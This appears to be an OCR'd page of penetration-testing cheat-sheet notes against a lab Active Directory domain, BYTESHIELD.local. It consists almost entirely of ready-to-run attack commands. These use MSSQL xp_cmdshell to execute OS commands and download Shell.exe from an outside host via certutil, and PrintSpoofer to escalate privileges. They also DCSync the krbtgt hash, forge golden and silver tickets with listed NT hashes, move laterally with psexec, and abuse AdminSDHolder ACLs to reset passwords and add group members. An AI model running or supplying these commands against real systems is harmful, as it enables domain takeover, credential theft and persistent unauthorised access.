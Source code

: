 ```bash
RECONFIGURE;
EXEC master..xp_cmdshell 'whoami';
Activates command shell execution on the SQL Server to run OS commands. 

# File Transfer and Shell Execution via MSSQL:
EXEC master..xp_cmdshell "certutil -urlcache -f http://192.168.0.101/Shell.exe C:\Users\Public\Shell.exe";
EXEC master..xp_cmdshell "certutil -urlcache -f http://192.168.0.101/Shell.exe C:\Users\Public\Shell.exe";
PrintSpoofer.exe -i -c cmd
```

## 8. Active Directory Persistence
### 8.1 Golden Ticket Attacks
```bash
# DCSync to Retrieve krbtgt Hash:
proxychains4 -q impacket-secretsdump BYTESHIELD.local/David.Williams@10.10.1.13 -just-dc-user BYTESHIELD/krbtgt

# Constructing a Golden Ticket:
proxychains4 -q impacket-ticketer -nthash cc33e56f29f7f028240c94009626a68e -domain BYTESHIELD.local -domain-sid S-1-5-21-2650123447-3108711000-1796582875 -extra-sid <extra-sid> hacker
export KRB5CCNAME=fakeuser.ccache

# Using the Golden Ticket:
proxychains4 -q impacket-psexec fakeuser@ROOT-DC01.BYTESHIELD.local -k -no-pass -target-ip 10.10.1.13
```

### 8.2 Silver Ticket Attacks
```bash
# Creating a Silver Ticket:
proxychains4 -q impacket-ticketer -nthash 0203b4df11a0f99f631a93f4c4cbfddb -domain-sid S-1-5-21-2650123447-3108711000-1796582875 -domain BYTESHIELD.local -spn cifs/FILE-SERVER.BYTESHIELD.local Administrator
export KRB5CCNAME=Administrator.ccache

# Using the Silver Ticket for Lateral Movement:
proxychains4 -q impacket-psexec Administrator@FILE-SERVER.BYTESHIELD.local -k -no-pass -target-ip 10.10.1.16
```

### 8.3 AdminSDHolder Abuse (Persistence Technique)
```powershell
# ACL Enumeration and Modification. Uses AD PowerShell modules to inspect and modify ACLs for persistence through AdminSDHolder abuse. 
Get-DomainObjectAcl -ResolveGUIDs -Where "SecurityIdentifier contains Jessica.Williams"
Set-DomainUserPassword -Identity Samantha.Rawland -AccountPassword 'SR.Password123!‘
Add-DomainGroupMember -Identity 'StdBy Admin' -Members Jessica.Williams
Get-DomainGroupMember -Identity 'StdBy Admin'
```
